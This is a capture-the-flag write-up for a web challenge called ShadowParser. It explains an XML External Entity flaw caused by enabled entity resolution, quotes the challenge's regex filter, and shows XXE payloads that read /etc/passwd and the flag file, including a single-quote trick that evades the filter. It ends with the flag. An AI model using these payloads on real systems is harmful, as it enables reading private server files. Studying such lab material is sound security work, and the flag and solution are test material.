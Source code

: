 ## Challenge Details
- **Category**: Web
- **Difficulty**: Medium

## Description
ShadowParser is an advanced XML processing tool that contains a hidden vulnerability. Can you find a way to exploit the XML parser to extract sensitive data from the server?

### Requirements
- XML knowledge
- Understanding of entity processing
- Web exploitation skills

![Challenge GIF](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExazkzend1eDc1dGVpaXkzY2ZxdWJqazJnOHlseGN0N25lN2Q0emZveCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/077i6AULCXc0FKTj9s/giphy.gif)

---

*Author: xtle0o0*

---

# ShadowParser - Solution

## Vulnerability

The ShadowParser application contains an XML External Entity (XXE) vulnerability in its XML parser configuration. Specifically, it uses `etree.XMLParser(resolve_entities=True)` which allows for the resolution of external entities.

## Web Application Firewall (WAF)

The application has a simplified WAF that blocks these specific patterns:
```python
WAF_PATTERNS = [
    r'<!ENTITY\s+\w+\s+SYSTEM\s+"file:',  # Only blocks the exact pattern with double quotes
    r'<!DOCTYPE\s+\w+\s+SYSTEM\s+"file:', # Only blocks direct SYSTEM with file:
    r'php://filter',                      # Still block some dangerous schemes
    r'expect://'
]
```

When the WAF detects these patterns, it returns the message: "hhhhhhhh Shablek ghir aji w di flag"

## Easy WAF Bypass Solutions

### Solution : Use Single Quotes
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM 'file:/flag.txt'>
]>
<data><content>&xxe;</content></data>
```

## Full Exploitation Steps

### Step 1: Reconnaissance

After deploying the challenge, we're presented with a web interface for an XML parser. Let's test a basic XML payload to see how the system responds:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<test>Hello World</test>
```

Response:
```
XML parsed successfully!

Root element: test
Child elements: []
```

### Step 2: Testing for XXE and Encountering WAF

Let's try a standard XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<test>&xxe;</test>
```

Response:
```
hhhhhhhh Shablek ghir aji w di flag
```

This indicates that a WAF is blocking our payload.

### Step 3: WAF Bypass Using Single Quotes

Based on the WAF patterns, we can see that it's only checking for double quotes in the pattern. 

### Step 4: Looking for the Flag

Now let's look for the flag file. A common location is in the root directory:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///flag.txt'> ]>
<test>&xxe;</test>
```

Response:
```
XML parsed successfully!

Root element: data
Child elements: ['content']

Element: content
  Content: Got Me LoL
Q01De2Q0cmtTaDRkMHdfcDRyczNyXzNudDF0eV9tNHN0M3J9

```

### Final Flag

**Flag**: `CMC{d4rkSh4d0w_p4rs3r_3nt1ty_m4st3r}`

## Summary

This challenge demonstrated:

1. An XXE vulnerability in an XML parser that allows external entity resolution
2. A poorly implemented WAF that only checks for specific patterns with double quotes
3. A simple bypass technique using single quotes instead of double quotes

